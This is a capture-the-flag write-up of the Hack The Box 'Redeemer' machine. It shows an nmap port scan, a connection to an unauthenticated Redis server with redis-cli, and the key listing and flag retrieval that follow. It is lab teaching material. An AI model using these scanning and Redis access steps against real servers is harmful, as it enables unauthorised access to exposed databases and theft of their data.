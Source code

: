 ```yaml
---
title: "Hack The Box - Redeemer"
date: 2022-10-12T02:41:09+05:30
draft: false
description: " Redeemer from HackTheBox is an retired machine which is vulnerable to Redis and security Misconfiguration, which can be easily exploited with help of Basic Recon "
hideToc: false
enableToc: true
enableTocContent: false
author: Atom
authorEmoji: ✍️
tags:
- Redis
series:
- Starting Point Tire 0
categories:
- Very Easy
- HackTheBox
- Linux
libraries:

image: /images/hackthebox/redeemer/redeemer1.png
---
```

Hi Hackers Welcome Back, Today we are going to look at Hack The Box Redeemer Machine.

## Info Table
<table style="width:100%">
 <thead>
  <tr>
    <th>Room Name</th>
    <th>Redeemer</th>
  </tr>
</thead>
<tr>
    <td>Category</td>
    <td>Hack The Box</td>
    </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
    </tr>
  </tr>
   <tr>
    <td>Difficulty</td>
    <td>Very Easy</td>
    </tr>
    <tr>
    <td>Maker</td>
    <td>Hack The Box</td>
    </tr>
    <tr>
    </tr>
</table>


## Kill Chain Summery
While enumerating ports and services we can able to find the port 6379 ware open. while tryed to connect without using any password. we got connected to Redis and get downloaded sensitive files. 

## Recon

let’s start with initial default scan (-sC). we did’t get any results, it shows that there is no services running on top 1000 ports. since we don’t know  vulnerable target port  so we can scan first 10000 ports 

```jsx
atom@atom-VirtualBox:~/htb/redeemer$ nmap -p1-10000 10.129.145.0
Starting Nmap 7.80 ( https://nmap.org ) at 2022-10-10 17:00 IST
Stats: 0:03:24 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 57.69% done; ETC: 17:06 (0:02:30 remaining)
Stats: 0:07:55 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 90.21% done; ETC: 17:09 (0:00:52 remaining)
Nmap scan report for 10.129.145.0
Host is up (0.19s latency).
Not shown: 9999 closed ports
PORT     STATE SERVICE
6379/tcp open  redis

Nmap done: 1 IP address (1 host up) scanned in 651.16 seconds
```

Databases are a collection of organized information that can be easily accessed, managed and updated. 

There are different types of databases and one among them is Redis, which is an 'in-memory' database. In - memory databases are the ones that rely essentially on the primary memory for data storage (meaning that the database is managed in the RAM of the system); in contrast to databases that store data on the disk or SSDs. As the primary memory is significantly faster than the secondary memory, the data retrieval time in the case of 'in-memory' databases is very small, thus offering very efficient & minimal response times.

```jsx
atom@atom-VirtualBox:~/htb/redeemer$ nmap -sC -sV -p 6379 10.129.145.0
Starting Nmap 7.80 ( https://nmap.org ) at 2022-10-10 18:07 IST
Nmap scan report for 10.129.145.0
Host is up (0.16s latency).

PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.20 seconds
```

In-memory databases like Redis are typically used to cache data that is frequently requested for quick retrieval.  We can infer from the scan result that only one port is open on the target machine, i.e. port 6379 which is running a Redis server

Redis (REmote DIctionary Server) is an open-source advanced NoSQL key-value data store used as a database, cache, and message broker. The data is stored in a dictionary format having key-value pairs. It is typically used for short term storage of data that needs fast retrieval. Redis does backup data to hard drives to provide consistency

Redis runs as server-side software so its core functionality is in its server component. The server listens for connections from clients, programmatically or through the command-line interface. The database is stored in the server's RAM to enable fast data access. Redis also writes the contents of the database to disk at varying intervals to persist it as a backup, in case of failure.

In order to work with redis you have to install  ``` redis-cli ```  type this command to install it ``` sudo apt install redis-tools ```

```jsx
atom@atom-VirtualBox:~/htb/dancing$ sudo apt install redis-tools
[sudo] password for atom: 
Reading package lists... Done
Building dependency tree       
Reading state information... Done
The following packages were automatically installed and are no longer required:
  chromium-codecs-ffmpeg-extra gstreamer1.0-vaapi libgstreamer-plugins-bad1.0-0 libva-wayland2
Use 'sudo apt autoremove' to remove them.
The following additional packages will be installed:
  libatomic1 libhiredis0.14 libjemalloc2 liblua5.1-0 lua-bitop lua-cjson
Suggested packages:
  ruby-redis
The following NEW packages will be installed:
  libatomic1 libhiredis0.14 libjemalloc2 liblua5.1-0 lua-bitop lua-cjson redis-tools
0 upgraded, 7 newly installed, 0 to remove and 0 not upgraded.
Need to get 887 kB of archives.
After this operation, 3,955 kB of additional disk space will be used.
Do you want to continue? [Y/n]
```

``` info ```  command is used to for gathering information 

```jsx
atom@atom-VirtualBox:~/htb/dancing$ redis-cli -h 10.129.136.187
10.129.136.187:6379> info
# Server
redis_version:5.0.7
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:66bd629f924ac924
redis_mode:standalone
os:Linux 5.4.0-77-generic x86_64
arch_bits:64
```

``` keys * ``` used to list the keys 

```jsx
10.129.136.187:6379> keys *
1) "flag"
2) "numb"
3) "temp"
4) "stor"
```

``` get ``` command is used to view content of the flag 

```jsx
atom@atom-VirtualBox:~/htb/redeemer$ redis-cli -h 10.129.145.83
10.129.145.83:6379> get flag
```

```bash
10.129.136.187:6379> get flag
"03e1d2b---------9922053953eb"
```